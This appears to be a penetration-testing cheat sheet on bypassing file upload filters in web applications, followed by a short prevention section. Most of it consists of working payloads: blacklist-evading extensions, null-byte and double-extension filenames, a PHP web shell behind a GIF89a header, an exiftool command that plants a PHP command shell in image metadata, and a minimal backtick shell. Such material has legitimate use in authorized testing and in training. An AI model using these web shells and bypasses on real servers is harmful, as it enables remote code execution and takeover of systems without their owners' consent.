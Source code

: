 ## Method-1: Bypassing Blacklists

   - Blacklisting is a type of protection where certain strings of data, in this case, specific extensions, are explicitly prohibited from being sent to the server.

**Bypassing php blacklist filters and for that below there are some extensions:**
```php
.pht, .phtml, .php3, .php4, .php5, .php6, .inc
```


**Another popular extension for [web shells](https://null-byte.wonderhowto.com/how-to/upload-shell-web-server-and-get-root-rfi-part-1-0162818/) is [JSP](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/), and here are some alternatives:**
```php
.jspx, .jspf, .jsw, .jsv
```


**In some situations, simply changing the case of the extension can trick filters into accepting the file, like so:**
```php
.pHp, .Php, .phP
```


**Try adding "special characters at the end." You could use Burp to "bruteforce" all the "ascii" and "Unicode" characters. (Note that you can also try to use the "previously" motioned extensions)**

```php
file.php%20_
file.php%0a_
file.php%00_
file.php%0d%0a_
file.php/
file.php.\
file.
file.php....
file.pHp5....
```


## Method-2: Bypassing Whitelists

   - Whitelisting is precisely the opposite of blacklisting, where the server accepts only specific extensions. 
   - For example, an application that allows you to upload a [profile picture](https://null-byte.wonderhowto.com/how-to/steganography-hide-secret-data-inside-image-audio-file-seconds-0180936/) might only take JPG, JPEG, or PNG files.
   - While this type of prevention is better than blacklisting, it can still be easily bypassed.

**Some web servers, such as [Apache](https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-configuring-apache-0164096/), allow files with double extensions. That means we can trick the server into accepting a PHP file that also has a JPG extension tacked on the end:**
```php
shell.php.jpg
```


**We can also use a null byte injection to bypass whitelist filters. Anything after the null character will be ignored when the file is saved.**
```php
shell.php%00.jpg
```

Or:

```php
shell.php\x00.jpg
```


##### Bypassing with null byte char using burp

   - This can also be accomplished with Burp and modifying the hex request.
   - Name the file **shell.phpD.jpg** — we'll replace the **D** character with a null character during the request. When uploading the file, intercept the request, go to the hex tab, and find the hex representation of the **D** character:
  
  ![[file_uploads1.jpg]]
  Simply replace the **44** with **00** and send the request through:
  
  ![[file_uploads2.jpg]]
  This technique can be used in tricky situations where the standard null byte injection won't work.

#### Bypassing whitelist with manipulating header

   - Usually, if an upload function accepts images, it will accept GIF files as well. We can add **GIF89a;** to the beginning of the shell to trick the upload:
```php
GIF89a; <?php system($_GET['cmd']); ?>
```

## Method 3: Exif Data

   - The next method to bypass file upload restrictions utilizes Exif data in an image.
   - We can insert a comment that contains valid PHP code that will be executed by the server when the image is processed.

**We can use "exiftool" to do this — if it is not installed already, install it with the package manager:**
```sh
apt install exiftool
```


>**Then we can insert a simple [command shell](https://null-byte.wonderhowto.com/how-to/use-commix-automate-exploiting-command-injection-flaws-web-applications-0189044/) as a comment in our pic:**
```sh
exiftool -Comment="<?php system($_GET['cmd']); ?>" pic.jpg
```


**Now if we use the "file" command on our pic, we can see the code was successfully inserted:**
```sh
file pic.jpg
```


>**All we have to do now is add a PHP extension so it can be executed:**
```sh
mv pic.jpg pic.php.jpg
```

**Note** - This technique can be combined with any of the approaches to bypass blacklists or whitelists.

## Method 4: Other Bypass Techniques

   - Sometimes, the only thing preventing individual files from being uploaded is client-side JavaScript. If the upload function still works without it, simply turning off JavaScript in the browser can sometimes beat restrictions. If that doesn't work, intercepting the request and changing the file extension can easily bypass client-side filters.
   - The content type of a file can also be used as a way to validate uploaded content. For example, an image upload will usually check that the content type of the file is an image, not a script or other malicious file type.
   - This type of prevention can easily be bypassed by [intercepting the request and changing the content type](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-using-burp-suite-0164148/).
   - In some situations, the length of the content can also be used to validate uploaded files. It will depend on the specific circumstances, but often all that's needed is a shorter payload. For example, a typical PHP command shell can be shortened to this:

```php
<?=`$_GET[x]`?>
```

## Preventing Unrestricted File Uploads

   - Several precautions developers can take to prevent unrestricted file uploads and reduce the likelihood of an attacker bypassing restrictions. First and foremost, the [directory](https://null-byte.wonderhowto.com/how-to/perform-directory-traversal-extract-sensitive-information-0185558/) where the uploads are stored should have no execute permissions. Consider storing files in a [database](https://null-byte.wonderhowto.com/how-to/sql-injection-101-database-sql-basics-every-hacker-needs-know-0184255/) rather than on the filesystem at all.
   - only one dot should be permitted. Also, the size should be limited as multiple large files can lead to denial of service.
   - After a file is uploaded, the name should be changed, ideally, to a [hash](https://null-byte.wonderhowto.com/how-to/use-hash-identifier-determine-hash-types-for-password-cracking-0200447/) that cannot be guessed. This will prevent attackers from being able to find their file after it is uploaded.
   - It is also wise to prevent files from being overwritten, so hashes cannot be deduced by an attacker.

